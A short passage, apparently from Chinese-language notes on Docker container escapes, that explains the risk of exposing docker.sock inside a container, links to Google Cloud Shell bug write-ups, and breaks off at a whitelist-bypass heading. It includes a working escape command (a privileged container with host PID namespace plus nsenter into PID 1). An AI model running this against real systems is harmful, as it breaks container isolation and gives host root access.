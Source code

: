 ![docker4](https://raw.githubusercontent.com/tom0li/tom0li.github.io/main/assets/images/docker4.jpg)

## 0x01.3 docker.sock暴露到容器内部
容器内部可以与docker deamon通信  
Command: ```sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh```
![docker8](https://raw.githubusercontent.com/tom0li/tom0li.github.io/main/assets/images/docker8.jpg)

- 案例:  
https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-introduction/  
https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-bug-2/

## 0x01.4 docker.sock 配置白名单绕过
### 架构

